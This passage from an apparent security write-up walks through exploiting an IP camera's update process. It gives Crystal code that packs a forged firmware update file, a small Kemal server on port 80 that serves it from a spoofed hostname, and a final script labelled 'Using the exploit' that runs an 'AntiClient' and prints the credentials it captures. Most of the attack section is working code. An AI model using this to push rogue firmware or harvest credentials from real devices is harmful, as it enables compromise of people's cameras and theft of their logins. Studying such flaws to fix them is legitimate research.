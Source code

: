 # Start construction
fwversion =  File.open(FWVERSION_PATH, "r") {|f| f.read_bytes(Int64, IO::ByteFormat::LittleEndian)}

new_update = File.open(NEW_UPDATE_PATH, "w")
new_update << SENTINEL_VALUE

files = File.read(FILE_ORDER_PATH).lines
puts "Loading files for update #{fwversion.to_s(16).rjust(16, '0')}"
puts
files.each do |file_path|
  filename = File.basename file_path
  zip_filename = filename += ".zip"
  
  # Make zip

  `cd #{FIRMWARE_PATH}; zip zip/#{zip_filename} #{file_path}`
  zip_file = File.read("#{ZIP_PATH}/#{zip_filename}")
  new_update &lt;&lt; (File.dirname(file_path) + "/").ljust(HEADER_OFFSET_DIRECTORY.size, "\x00"[0])
  new_update &lt;&lt; zip_filename.ljust(HEADER_OFFSET_FILENAME.size, "\x00"[0])

  new_update.write_bytes(zip_file.bytes.size, IO::ByteFormat::LittleEndian)
  new_update.write_bytes(fwversion, IO::ByteFormat::LittleEndian)
  new_update &lt;&lt; zip_file

  puts "#{file_path}"
  puts "SIZE: #{zip_file.bytes.size.to_s 16}"
end

new_update &lt;&lt; SENTINEL_VALUE.reverse
new_update.close
</code></pre>

## Writing an update server

Next, we need a simple program to host the file for download. The server MUST run on port 80, the camera won't accept a port argument. The cgi script also only will take a text url, not an IP address, so we need to bind our system to a URL (like badclient.local or something).

<pre><code class="crystal">
require "kemal"

get "/update" do |env|
  send_file env, "rsrc/update"
end
Kemal.config.port = 80
Kemal.run
</code></pre>

## Using the exploit
<pre><code class="crystal">
require "./anti-client"
anti = AntiClient.new
anti.run
creds = anti.wait_for_creds
anti.close
puts "GOT CREDS #{creds}"
